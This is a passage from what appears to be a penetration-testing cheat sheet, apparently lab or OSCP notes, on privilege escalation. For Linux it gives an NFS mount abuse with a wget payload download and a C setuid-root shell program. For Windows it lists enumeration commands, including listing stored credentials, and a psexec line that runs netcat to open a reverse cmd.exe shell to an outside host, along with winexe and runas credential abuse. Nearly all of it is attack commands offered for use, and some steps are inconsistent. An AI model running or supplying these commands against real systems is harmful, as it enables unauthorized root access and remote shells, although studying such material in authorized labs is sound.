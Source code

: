 ```
```
* mount
```
$ showmount -e ip
$ mount ip:/ /tmp/
$ wget http://10.11.0.186/4777
$ chmod 4777 exploit
```
```
$ ./4777
```
```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
    setuid(0);
    system("/bin/bash");
    return 0;
}
```
https://touhidshaikh.com/blog/?p=788
## Windows
#### Information
* get version
```
$ systeminfo
```
* service
```
$ tasklist
```
* show all folder
```
$ dir /a
```
* show default creds
```
$ cmdkey /list
```

#### Priv Esc
* psexec
```
$ psexec -u alice -p aliceishere "c:\Users\Public\nc.exe" 10.11.0.49 5555 -e cmd.exe
```
* winexe
```
$ winexe -U username%password //ip cmd.exe
```
* runas
```
$ runas /savecred /user:Administrator shell.exe
```
### BufferOverflow
## connect to Windows
* Linux
```
$ service ssh start
$ rdesktop -u offsec -p offsec! ip -f
```